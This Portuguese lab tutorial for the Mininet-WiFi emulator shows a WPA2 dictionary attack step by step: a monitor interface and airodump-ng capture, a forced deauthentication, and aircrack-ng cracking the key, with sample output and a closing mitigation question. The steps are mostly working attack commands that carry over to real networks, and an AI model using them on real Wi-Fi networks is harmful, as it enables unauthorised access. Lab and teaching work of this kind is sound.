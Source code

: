 ************
Dictionary attack
************


.. Note::
  
  **Ao longo deste documento você irá aprender como realizar o ataque de dicionário:** 

  **Requisitos:** 
  
  - Mininet-WiFi - https://github.com/intrig-unicamp/mininet-wifi
  - airodump-ng
  
  **A VM disponível em https://github.com/intrig-unicamp/mininet-wifi deverá possuir todos os recursos necessários para reproduzir este documento. Caso algum pacote estiver faltando, instale-os**
  

Primeiro, execute uma topologia simples que provê autenticação com WPA2 através do comando abaixo:

.. code:: console

    ~/mininet-wifi$ sudo python examples/authentication.py


A topologia de rede do código `authentication.py` consiste de duas estações conectadadas a um ponto de acesso. Para realizar este experimento, vamos inicialmente criar uma interface do tipo monitor chamada `mon0` a partir da estação `sta1`.

Para criar uma interface do tipo monitor execute o comando abaixo: 

.. code:: console

    mininet-wifi> sta1 iw dev sta1-wlan0 interface add mon0 type monitor


Então, utilize o **airodump-ng** para capturar beacons na interface recém-criada:

.. code:: console

    mininet-wifi> sta1 ifconfig mon0 up
    mininet-wifi> sta1 airodump-ng mon0

 
Identifique o endereço MAC da estação na coluna station. 
**Dica**: Identifique o BSSID do AP ao qual a estação está conectada. O SSID pode servir de apoio.

Então, rode novamente o **airodump-ng** com os parâmetros abaixo:

.. code:: console

    mininet-wifi> xterm sta1
    sta1-term# airodump-ng --bssid 02:00:00:00:02:00 mon0 -w minha-captura


Em seguida, force a desconexão de **sta1**.


.. code:: console
    
    mininet-wifi> sta1 iw dev sta1-wlan0 disconnect


Agora, crie um arquivo chamado `arquivo.psk` contendo o seguinte conteúdo:

.. code:: console

    123456789a
    abcdefgh
    0011223344


Em seguida, execute o comando abaixo:

.. code:: console

    mininet-wifi> sta1 aircrack-ng -w arquivo.psk -b 02:00:00:00:02:00 minha-captura-01.cap


E voi-lá! Senha descoberta!


.. code:: console

    Aircrack-ng 1.6 

          [00:00:00] 3/3 keys tested (63.70 k/s) 

          Time left: --

                              KEY FOUND! [ 123456789a ]


          Master Key     : E0 3D DC 8E 51 FB 0A 35 A6 EE 6D DF 9B 6B 69 EB 
                           E8 C0 7B D2 50 95 63 A7 26 43 DD B2 0F 46 E6 21 

          Transient Key  : 55 6C 6D AA 5D B2 DC E6 C3 FB 38 59 C8 B4 5D B3 
                           1E 3B AB 48 81 8E 94 AB 50 94 9E 25 61 8D D4 F0 
                           B9 1E 4F 3C 9C 84 48 3D 8B 09 86 1D 98 31 23 57 
                           4B 03 8F B4 86 8F 8D A4 59 CD 30 2D 71 D7 AF 18 

      EAPOL HMAC     : C1 3D 58 9D 02 CB 03 4A FC 3D 44 96 FF 2D 5D 79


.. admonition:: Pergunta

   - Q1. O que poderia ser feito para tentar mitigar este tipo de ataque?

